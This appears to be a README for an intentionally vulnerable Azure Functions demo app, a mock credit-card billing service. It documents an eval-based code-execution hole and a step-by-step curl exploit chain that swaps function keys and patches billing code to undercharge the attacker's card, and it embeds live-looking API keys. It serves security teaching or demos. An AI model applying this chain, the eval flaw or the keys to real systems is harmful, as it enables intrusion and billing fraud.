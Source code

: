 Setup notes

- After deploying the .js files and package.json file for each function, you'll need to go into the scm console <appname.scm.azurewebsites.net/DebugConsole>, go into the home/site/wwwroot/<functionName> directory and run `npm install`.  It'll take a long time.

- Sometimes calls to the API just seem to fail.  Can't reproduce locally.  Not sure, just try again.

- I've included all sorts of creds directly in source out of ~~laziness~~expediency.

- Running the below steps will leave the app in the broken state.  I haven't yet written easy scripts to reset things to 'beginning' state:
  * Billing needs function.json.bkup copied back over function.json
  * TotalView and Billing need their original creds (d:\home\data\Functions\secrets)
  * ?? (haven't fully tested)

-----------------------------------
Concept

Layout for the vulnerable app.

Maybe delivered with serverless?

Concept:
* This is a webapp to consolidate credit card payments.  
* Payments aggregate over the month, and at the end of the month a scheduled function sends a single bill out, thus avoiding additional credit card fees.

Endpoints / functions:
* Check my balance:
  * API endpoint
  * In:
    * The 'semi-public' key for the function
    * Their card number in json format {cardNumber: <cardnum>} which is eval'd
  * Returns: dates and amounts of purchases
  * This is the vulnerable endpoint
* Check what will be paid at the end of the month:
  * API endpoint
  * Requires master (or 'more secret') key to use
  * Returns dict of card #s to payments processed
* Billing function:
  * Cron for once monthly
  * Per customer, sums costs and then sends the bill out
  * Marks as billed? (allowing spoofing)
* API endpoint for writing charges? (not implemented yet, maybe unneccesary)
  * Change code to not accept your credit card?

Exploitation path:
* Discover arbitrary code execution in initial API endpoint:
  * Since path is read-only, we're not too worried about breaking things
  * exploit is just eval'ing some JSON to make things super simple
  * Information gained:
    * Master key / secure key (encrypted, haven't dug into how to decrypt)
    * List of other functions (we didn't know about the other ones)
    * General access
* Dump sources of other functions as wanted
* Take key
  * Use to trigger the general 'card info' function
* Modify billing function:
  * Change it from cron to API
  * Trigger billing at arbitrary times
  * Change source of billing function to only bill me $1
* Change source of 'charge writing' API to not accept my card (or someone else's?) (if fn exists)

SQL schema:
* Cards: ID, card#, API key
* Purchases: ID, CardID, Time, $amount

----------------------------

Routes: (plug the relevant keys in for your own? functions app)

vuln_api: takes your credit card #, returns just your charges.
curl -X POST -d @benign.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: [{"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"amount":5.99,"date":"2017-06-17T00:00:00Z"}]

totalView: Doesn't take any arguments.  Returns the list of all charges.
curl -X POST -d '{}' -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/TotalView?code=NKsfko79s6xRHgi838kqeoycX6Jk7gaALAY0Gwdb65afCETnY02pXA==
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

billing: Sums up the cards to do the billing.  Can't be triggered via API, is triggered via cron.

Vulns:
curl -X POST -d @print_return.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "hax!"

List available functions with secret sets via list_functions:
curl -X POST -d @list_functions.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: ["billing.json","host.json","httptriggerjs2.json","manualtriggerjs1.json","publicvuln.json","timertriggerjs1.json","totalview.json","totalview.json.bkup","totalview.json.orig"]

Try to run totalview:
curl -X POST -d '{}' -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/TotalView?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: this doesn't work because we don't have the key!

Change permissions on totalview: (they keys on disk are encrypted, but they're all encrypted against the same key, so we can just copy in our known working one!)
curl -X POST -d @change_totalview_perms.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "done"

After changing perms, run totalView again:
curl -X POST -d '{}' -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/TotalView?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

Now what's Billing - let's read its function metadata:
curl -X POST -d @read_billing_info.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "{\r\n  \"bindings\": [\r\n    {\r\n      \"name\": \"myTimer\",\r\n      \"type\": \"timerTrigger\",\r\n      \"direction\": \"in\",\r\n      \"schedule\": \"0 0 0 1 * *\"\r\n    }\r\n  ],\r\n  \"disabled\": false\r\n}"

We can't call it by API since it's a cron job.  Let's change it to being API-able:
curl -X POST -d @change_billing_to_api.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==

Now change the permissions to use our known key like above:
curl -X POST -d @change_billing_perms.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==

Now we can query it via API:
curl -X POST -d @benign.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/Billing?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: [{"1234-5678-9012-3456":30.98},{"0000-0000-0000-0000":37.99}]

But we don't want to be billed, right?  Let's see how billing works by dumping the source:
curl -X POST -d @read_billing_source.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: <bunch of js source>

Now let's put in something for our card:
curl -X POST -d @patch_billing_code.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "done"

And when we query billing again:
curl -X POST -d @benign.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/Billing?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: {"1234-5678-9012-3456":1,"0000-0000-0000-0000":37.99}


TODO:

- make it cooler by making vuln_api use an sql user that doesn't have creds to just do the further queries by itself (so we have to gain access to totalView)
